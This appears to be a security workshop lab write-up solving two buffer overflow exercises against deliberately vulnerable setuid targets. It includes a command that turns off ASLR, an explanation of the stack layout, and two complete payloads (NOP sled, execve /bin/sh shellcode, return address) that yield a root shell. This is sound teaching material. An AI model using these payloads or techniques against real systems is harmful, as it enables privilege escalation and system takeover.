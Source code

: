 # Buffer Overflow Attacks

## Instructions:

### Build and install the vulnerable targets
```
$ cd /home/userx/day1/targets
$ make
$ sudo make install
```
This creates executables `/tmp/target{1,2}` with the `setuid` bit set.

### Build the exploit code
```
$ cd /home/userx/day1/xploits
$ make
```

### Run the exploit code
```
$ cd /home/userx/day1/xploits
$ ./xploit1
$ ./xploit2
```

### Change the exploit code
Edit the xploit{1,2}.c files so that, when run again, they
a. first cause the target executable to crash, e.g., due to a segmentation fault
b. then cause the target executable to yield a root shell.
The "shellcode.h" file available in the `xploits/` directory contains the binary code that, when executed, executes the shell command.  You may want to use the contents of this code in the command-line arguments used while invoking the target executables.


## Solution:

Buffer Overflow attacks are possible when the Stack is set to executable. In this attack, we override the return address of a function to an arbitary position in the stack, which has the shellcode to be executed. This leads to code execution from the program.

To start with the attack, we disable the `randomize_va_space` to make our lives easier and stop the randomization of the stack each time the program is executed. This gives us the opportunity to work with the same address layout while executing the program multiple time.

```bash
# To disable aslr
$> echo 0 > /proc/sys/kernel/randomize_va_space

# To enable aslr
$> echo 2 > /proc/sys/kernel/randomize_va_space

# To verify aslr
$> cat /proc/sys/kernel/randomize_va_space
```

Once our binaries are compiled, we can start working with `gdb`.

#### Target1:
This is the easier of the two binaries provided in the exercise. To get a basic understanding of buffer overflow, we need to have some idea of how the memory is layed out.

<img src="https://gabrieletolomei.files.wordpress.com/2013/10/program_in_memory2.png" align="center" alt="https://gabrieletolomei.files.wordpress.com/2013/10/program_in_memory2.png">

As seen from the above diagram, the stack grows downwards. Inside the stack, the structure is as follows:
<img src="https://raw.githubusercontent.com/samsepi0x0/IITD-WSS/main/day1/buffer-overflow/Screenshots/Stack_Structure.jpg?token=GHSAT0AAAAAAB27OOBUEU4ESKCNUMLV6HUWY5PDQOA" align=center alt="Image of stack structure">

The idea is simple, to overflow the buffer(Argument n in the image) so that it reaches the return address of the function. Then we can return to any point in the stack, which would be inside the buffer which contains the shellcode given in the lab manuals.

To do this we will need three things:

- Size of buffer in the stack
- Size of shellCode
- Memory address of the start of the buffer.


We start by finding the size of the buffer inside the stack, which in our case is `260`. Anymore then these many bytes and the return address is overwritten with the overflow bytes. We can find this by testing the size of the buffer in gdb and checking when exactly the system crashes.

The size of the shell code provided is `45 bytes`, although this changes from shellcode to shellcode.

Last, we need a memory address for the start of the buffer in the memory. This should not be the start of the buffer, but near the start of the buffer.

**Structure of the Exploit:**
```
"\x90"*215 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb4\xcf\xff\xff"
```

`\x90` is the hex equivalent of the instruction `NOP` instruction, guiding the program control (instruction counter) to simply jump to the next instruction without any execution.

The second part of the exploit is the shell code, which launches the `/bin/dash`, a shell present in almost every linux architecture.

Last part of the exploit is the address near the start of the buffer, written in little-endian style, as that is what the cpu understands.

##### Output:

Running the exploit successfully gave us the shell access.

![Shell-accessed](https://raw.githubusercontent.com/samsepi0x0/IITD-WSS/main/day1/buffer-overflow/Screenshots/overflow1-1.png?token=GHSAT0AAAAAAB27OOBVNO2R3JQKNTS4KVJGY5PGLJA)

#### Target2:
This one was a bit trickier than the previous one. Instead of the vulnerable `strcpy` function, we have the `nstrcpy`, a custom implementation of the strcpy command, but insecure nonetheless.

![Code_snippet](https://raw.githubusercontent.com/samsepi0x0/IITD-WSS/main/day1/buffer-overflow/Screenshots/Code_snippet.png?token=GHSAT0AAAAAAB27OOBUKJKH2YRWFYDLUH5UY5PGUJA)

The buffer size in this case is strictly 200, although for out case, we have taken 201 as the buffer size to cause segmentation fault.

**Structure of Exploit:**
```
'\x90'*147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x74\xcf\xff\xffBBBB'
```

The first part is the NOP slide in the buffer, to route the EIP towards the shellcode. The second part is the shellcode, which opens the `/bin/dash`, same as the first one. This third part is interesting, since the overflow happens of 8 bytes from the last of the buffer, so we need to add the return address then random data. The address is as usual written in little-endian format.

##### Output:

Shell is accessed in through the exploited vulnerability.

![Buffer Overflow](https://raw.githubusercontent.com/samsepi0x0/IITD-WSS/main/day1/buffer-overflow/Screenshots/overflow2-2.png?token=GHSAT0AAAAAAB27OOBV3JR4DMTILRQ7AL4MY5PHGKA)
